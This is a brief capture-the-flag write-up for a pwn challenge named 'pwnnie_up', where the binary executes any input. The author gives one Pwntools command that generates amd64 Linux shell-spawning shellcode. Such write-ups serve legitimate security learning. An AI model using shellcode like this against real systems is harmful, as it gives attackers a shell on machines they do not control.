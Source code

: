 ## pwnnie_up

My first time dealing with shellcode in pwn.

Quite straight forward since the vulnerability reads & executes any input.

So i just use Pwntools to generate a shell.

This can be done using the following command:

```shell
pwn shellcraft -o shellcraft.sh amd64.linux.sh
```